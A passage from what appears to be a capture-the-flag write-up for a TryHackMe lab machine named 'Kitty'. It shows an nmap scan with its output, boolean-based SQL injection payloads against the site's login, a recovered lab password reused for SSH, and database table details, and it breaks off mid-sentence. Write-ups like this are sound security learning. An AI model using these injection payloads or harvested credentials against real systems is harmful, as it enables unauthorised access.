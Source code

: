 # #1 introduction
<img width="647" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/0b9b87b9-98fb-4b13-ae10-fbfac330dd87">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx kitty.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- kitty.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)
kitty' AND 1=1#

kitty' AND password LIKE BINARY '%'

we add the binary cause LIKE is case insensitive
we will use kitty and password to connect to SSH

-> L0ng_Liv3_KittY

dbname : mywebsite

table: siteusers
fields: id,username,password,created_at


we
